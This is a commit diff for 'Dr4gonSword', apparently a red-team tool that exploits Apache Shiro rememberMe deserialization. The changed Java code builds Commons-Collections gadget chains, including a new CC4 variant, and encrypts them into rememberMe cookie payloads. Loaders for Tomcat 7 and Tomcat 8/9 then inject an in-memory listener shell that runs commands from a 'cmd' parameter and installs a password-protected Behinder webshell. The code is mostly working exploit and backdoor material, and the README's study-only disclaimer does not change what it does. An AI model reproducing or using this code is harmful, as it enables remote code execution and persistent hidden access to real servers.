

0.0.3

diff --git a/src/main/java/ccdr4gon/Load.java b/src/main/java/ccdr4gon/Load.java
@@ -3,12 +3,14 @@ package ccdr4gon;
 import org.apache.catalina.core.StandardContext;
 import org.apache.catalina.loader.WebappClassLoaderBase;
 import java.lang.reflect.Method;
+import java.security.MessageDigest;
 import java.util.Base64;
 
 public class Load {
+    public static String pass;
[7 lines of base64/hex data omitted]
 
@@ -30,12 +32,23 @@ public class Load {
             Class JSPContext =(Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), JSPContextpayload, 0, JSPContextpayload.length);
             Class pageContext =(Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), pageContextpayload, 0, pageContextpayload.length);
         }
+
         Class ctxclass = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), ctxpayload, 0, ctxpayload.length);
         Class listenerclass = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), listenerpayload, 0, listenerpayload.length);
         Class Uclass = (Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), Upayload, 0, Upayload.length);
         WebappClassLoaderBase webappClassLoaderBase =(WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
         StandardContext standardCtx = (StandardContext)webappClassLoaderBase.getResources().getContext();
-        standardCtx.addApplicationEventListener(listenerclass.newInstance());
+
+        MessageDigest md5 = MessageDigest.getInstance("MD5");
+        byte[] bytes = md5.digest(pass.getBytes());
+        StringBuilder sb = new StringBuilder();
+        for (byte b : bytes) {
+            sb.append(Integer.toHexString(b >> 4 & 0xf));
+            sb.append(Integer.toHexString(b & 0xf));
+        }
+        String md5pass= sb.toString().substring(0,16);
+
+        standardCtx.addApplicationEventListener(listenerclass.getConstructor(String.class).newInstance(md5pass));
 
     }
 }

diff --git a/src/main/java/ccdr4gon/T7Load.java b/src/main/java/ccdr4gon/T7Load.java
@@ -4,15 +4,17 @@ import org.apache.catalina.core.StandardContext;
 
 import java.lang.reflect.Field;
 import java.lang.reflect.Method;
+import java.security.MessageDigest;
 import java.util.Base64;
 import java.util.HashMap;
 import java.util.Map;
 
 //Tomcat7Load
 public class T7Load {
+    public static String pass;
[7 lines of base64/hex data omitted]
 
@@ -53,6 +55,16 @@ public class T7Load {
                     o = G(G(t, "target"), "this$0");
                 }
             }
+
+            MessageDigest md5 = MessageDigest.getInstance("MD5");
+            byte[] bytes = md5.digest(pass.getBytes());
+            StringBuilder sb = new StringBuilder();
+            for (byte b : bytes) {
+                sb.append(Integer.toHexString(b >> 4 & 0xf));
+                sb.append(Integer.toHexString(b & 0xf));
+            }
+            String md5pass= sb.toString().substring(0,16);
+
             Field f = Class.forName("org.apache.catalina.core.ContainerBase").getDeclaredField("children");
             f.setAccessible(true);
             HashMap<String,Object> p = (HashMap) f.get(o);
@@ -60,7 +72,7 @@ public class T7Load {
                 HashMap<String,Object> k = (HashMap) f.get(l.getValue());
                 for (Map.Entry j : k.entrySet()){
                     ((StandardContext)j.getValue()).setApplicationEventListeners(new Object[]{});
-                    ((StandardContext)j.getValue()).addApplicationEventListener(listenerclass.newInstance());
+                    ((StandardContext)j.getValue()).addApplicationEventListener(listenerclass.getConstructor(String.class).newInstance(md5pass));
                 }
             }
         } catch (Exception ignored) {}

diff --git a/src/main/java/ccdr4gon/CommonsCollectionsK1_1_For_CC4.java b/src/main/java/ccdr4gon/CommonsCollectionsK1_1_For_CC4.java
@@ -4,18 +4,24 @@ import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
 import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
 import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
 import net.bytebuddy.ByteBuddy;
-import org.apache.commons.collections.functors.ConstantTransformer;
-import org.apache.commons.collections.functors.InstantiateTransformer;
-import org.apache.commons.collections.keyvalue.TiedMapEntry;
-import org.apache.commons.collections.map.LazyMap;
+import org.apache.commons.collections4.functors.ConstantTransformer;
+import org.apache.commons.collections4.functors.InstantiateTransformer;
+import org.apache.commons.collections4.keyvalue.TiedMapEntry;
+import org.apache.commons.collections4.map.LazyMap;
 
 import javax.xml.transform.Templates;
-import java.io.*;
+import java.io.ByteArrayOutputStream;
+import java.io.ObjectOutputStream;
 import java.lang.reflect.Field;
 import java.util.HashMap;
 import java.util.Map;
 
-public class CommonsCollectionsK1_1 {
+public class CommonsCollectionsK1_1_For_CC4 {
+
+    public CommonsCollectionsK1_1_For_CC4(){
+
+    }
+
     public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
         Field field = obj.getClass().getDeclaredField(fieldName);
         field.setAccessible(true);
@@ -40,10 +46,9 @@ public class CommonsCollectionsK1_1 {
                         new Class[] { Templates.class },
                         new Object[] { obj }
                 );
-
         Map originalMap  = new HashMap();
-        Map decoratedMap = LazyMap.decorate(originalMap , i);
-        Map fakedecoratedMap=LazyMap.decorate(originalMap, new ConstantTransformer("1"));
+        Map decoratedMap = LazyMap.lazyMap(originalMap , i);
+        Map fakedecoratedMap=LazyMap.lazyMap(originalMap, new ConstantTransformer("1"));
         TiedMapEntry tme = new TiedMapEntry(fakedecoratedMap,TrAXFilter.class);
         Map enterpointMap = new HashMap();
         enterpointMap.put(tme, "valuevalue");

diff --git a/src/main/java/ccdr4gon/utils/Dr4gonListener.java b/src/main/java/ccdr4gon/utils/Dr4gonListener.java
@@ -17,6 +17,10 @@ import java.util.Base64;
 
 
 public class Dr4gonListener implements ServletRequestListener {
+    public Dr4gonListener (String pass){
+        this.pass=pass;
+    }
+    public String pass;
     @Override
     public void requestDestroyed(ServletRequestEvent servletRequestEvent) { }
     //listener实现回显+注入冰蝎内存马
@@ -29,7 +33,7 @@ public class Dr4gonListener implements ServletRequestListener {
             Request request = (Request) field.get(requestfacade);
             Response response = request.getResponse();
             HttpSession session = request.getSession();
-            PageContext pageContext = (PageContext) new Dr4gonContext(request, response, session);
+            PageContext pageContext = new ccdr4gon.utils.Dr4gonPageContext(request, response, session);
             //回显
             if (request.getParameter("stage").equals("echo")) {
                 String cmd=request.getParameter("cmd");
@@ -55,7 +59,7 @@ public class Dr4gonListener implements ServletRequestListener {
             }
             //注入冰蝎3内存马
             if (request.getParameter("stage").equals("s")) {
-                String k = "e45e329feb5d925b";
+                String k = pass;
                 session.putValue("u", k);
                 Cipher c = Cipher.getInstance("AES");
                 c.init(2, new SecretKeySpec(k.getBytes(), "AES"));

diff --git a/src/main/java/ccdr4gon/InitFactory.java b/src/main/java/ccdr4gon/InitFactory.java
@@ -1,0 +1,32 @@
+package ccdr4gon;
+
+import ccdr4gon.utils.AesUtils;
+import org.apache.shiro.crypto.AesCipherService;
+import org.apache.shiro.util.ByteSource;
+
+import java.lang.reflect.Field;
+import java.lang.reflect.Method;
+import java.util.Base64;
+
+public class InitFactory {
+    public static String getpayload(String middleWare,String chain,byte[] key,boolean is_gcm) throws Exception {
+        //对应关系
+        middleWare=middleWare.replace("Tomcat8/9","Init").replace("Tomcat7","T7");
+        middleWare="ccdr4gon."+middleWare;
+        chain="ccdr4gon."+chain;
+
+        Method f=Class.forName(chain).getMethod("getPayload",String.class);
+        byte[] init = (byte[]) f.invoke(null,middleWare);
+
+
+        if(is_gcm) {
+            AesCipherService aes = new AesCipherService();
+            ByteSource initciphertext = aes.encrypt(init, key);
+            return  "rememberMe=" + initciphertext;
+
+        }else {
+            byte[] initciphertext = AesUtils.encrypt(init, key);
+            return "rememberMe=" + Base64.getEncoder().encodeToString(initciphertext);
+        }
+    }
+}

diff --git a/src/main/java/ccdr4gon/LoadFactory.java b/src/main/java/ccdr4gon/LoadFactory.java
@@ -1,0 +1,29 @@
+package ccdr4gon;
+
+import ccdr4gon.utils.Dr4gonListener;
+import net.bytebuddy.ByteBuddy;
+import net.bytebuddy.jar.asm.Opcodes;
+import net.bytebuddy.matcher.ElementMatcher;
+import net.bytebuddy.matcher.ElementMatchers;
+
+import java.math.BigInteger;
+import java.security.MessageDigest;
+import java.util.Base64;
+
+public class LoadFactory {
+    public static  String  getPayload(String middleWare,String pass) throws Exception{
+        //对应关系
+        middleWare=middleWare.replace("Tomcat8/9","Load").replace("Tomcat7","T7Load");
+        middleWare="ccdr4gon."+middleWare;
+
+        Class clazz=Class.forName(middleWare);
+        byte[] load= new ByteBuddy()
+                .redefine(clazz)
+                .name(clazz.getName())
+                .field(ElementMatchers.named("pass")).value(pass)
+                .make()
+                .getBytes();
+
+        return Base64.getEncoder().encodeToString(load);
+    }
+}

diff --git a/src/main/java/ccdr4gon/archive/Test.java b/src/main/java/ccdr4gon/archive/Test.java
@@ -1,0 +1,29 @@
+package ccdr4gon.archive;
+
+import ccdr4gon.Load;
+import net.bytebuddy.ByteBuddy;
+import net.bytebuddy.matcher.ElementMatchers;
+
+import java.lang.reflect.Field;
+import java.lang.reflect.Method;
+
+public class Test {
+    public static void main(String[] args) throws Exception{
+
+
+        byte[] load= new ByteBuddy()
+                .redefine(Load.class)
+                .name("asd")
+                .field(ElementMatchers.named("pass")).value("asdsadasdsad")
+                .make()
+                .getBytes();
+
+        Method defineClass = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
+        defineClass.setAccessible(true);
+
+        Class test =(Class) defineClass.invoke(Thread.currentThread().getContextClassLoader(), load, 0, load.length);
+        Field f=test.getDeclaredField("pass");
+        System.out.println(f.get(null));
+
+        }
+}

diff --git a/src/main/java/ccdr4gon/utils/Dr4gonPageContext.java b/src/main/java/ccdr4gon/utils/Dr4gonPageContext.java
@@ -15,11 +15,11 @@ import java.util.Enumeration;
 
 
 //冰蝎要用的PageContext
-public class Dr4gonContext extends PageContext {
+public class Dr4gonPageContext extends PageContext {
     public Request request;
     public HttpSession session;
     public Response response;
-    public Dr4gonContext(Request request,Response response,HttpSession session){
+    public Dr4gonPageContext(Request request, Response response, HttpSession session){
         this.session=session;
         this.request=request;
         this.response=response;

diff --git a/README.md b/README.md
@@ -1,5 +1,5 @@
 # Dr4gonSword
-- [Dr4gon's Sword](#dr4gon-s-sword)
+- [Dr4gonSword](#dr4gon-s-sword)
   * [Shiro](#shiro)
     + [使用方法](#----)
     + [利用链](#---)
@@ -7,9 +7,15 @@
     + [本地测试过的中间件版本](#-----------)
 - [未来准备更新(可能)](#----------)
 
-版本0.0.2,目前只有Shiro,后续随着学习会应该加入更多漏洞
+**仅供交流学习漏洞利用原理,请勿用于非法用途**
 
-仅供交流学习漏洞利用方式,请勿用于非法用途
+**仅供交流学习漏洞利用原理,请勿用于非法用途**
+
+版本0.0.3
+
+在红队中发现现有的shiro利用工具有些时候会注入内存马失败,于是自己写下了这个小工具,也是为了更好地了解漏洞原理与利用方式
+
+因为刚入门JAVA,所以肯定还有很多不足,目前只有Shiro,后续随着学习会应该加入更多漏洞(大概)
 
 ## Shiro
 
@@ -25,13 +31,17 @@
 
 ### 利用链
 
-Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer(大概是CC3和CC6分别缝合TiedMapEntry来去掉transformer数组)
+Commons-CollectionsK1_1 和K1的区别基本上只是我用的是InstantiateTransformer,K1用的是InvokerTransformer
 
 总结:几乎一样
 
 ### 内存马和回显方法
 
-使用listener注入,相比于[j1anFen](https://github.com/j1anFen)师傅用的servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况
+使用listener注入,相比于使用servlet来说,不会被shiro拦,只要tomcat能解析的路径就能上线内存马,不用怕shirofilter匹配*的情况,例如P师傅的shirodemo环境(2021强网杯hard pentest,如下图)
+
+![](./5.png)
+
+
 
 并且defineclass直接加载了pageContext类(有的时候没有依赖导致注入失败)
 
@@ -92,11 +102,21 @@ Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version>
 
 Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0 (gcm)
 
+Tomcat 8.5.51 √ with commons-collections4 dependency
+
 ![3](./3.png)
 
 ![4](./4.png)
 
+![6](./6.png)
+
 # 更新记录
+
+## 0.0.3
+
+- Behinder内存马兼容性修复并且添加自定义密码(会生成一个随机密码)
+- CommonsCollections4依赖的利用链(只是把.decorate改成了.lazyMap)
+- 重构了controller生成payload部分的代码结构,使用factory
 
 ## 0.0.2 
 
@@ -110,12 +130,32 @@ Springboot 2.0.5 √ <tomcat.version>8.5.51</tomcat.version> shiro version 1.7.0
 - 依赖有点问题,目前我是直接把tomcat的lib全加到projectstructure里了
 - 把类名改了,用下去的话总感觉会有一天接到溯源的电话
 - shiro
-  - 自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)
-  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2版本已更新
-  - commons-collections4利用链
+  - ~~自定义Behinder的pass(现在还只能是默认的rebeyond,太惨了)~~ 0.0.3已更新
+  -  ~~aes gcm加密方式(说实话也不知道有没有用)~~ 0.0.2已更新
+  - ~~commons-collections4利用链~~  0.0.3已更新
   - commonsbeanutils利用链
 - fastjson
 - weblogic等等更多以后准备学习的JAVA漏洞
 - 由于java流只能读取一次,okhttp库的IO目前处于能用就行的丑陋状态,之后看看怎么改改
 - 一键清除所有listener
+
+# 感谢
+
+phithon
+
+kingkk
+
+j1anFen
+
+Litch1
+
+threedr3am
+
+李三
+
+LandGrey
+
+Lucifaer
+
+等公开发表过Tomcat内存马/回显以及Shiro利用方式文章的师傅
 
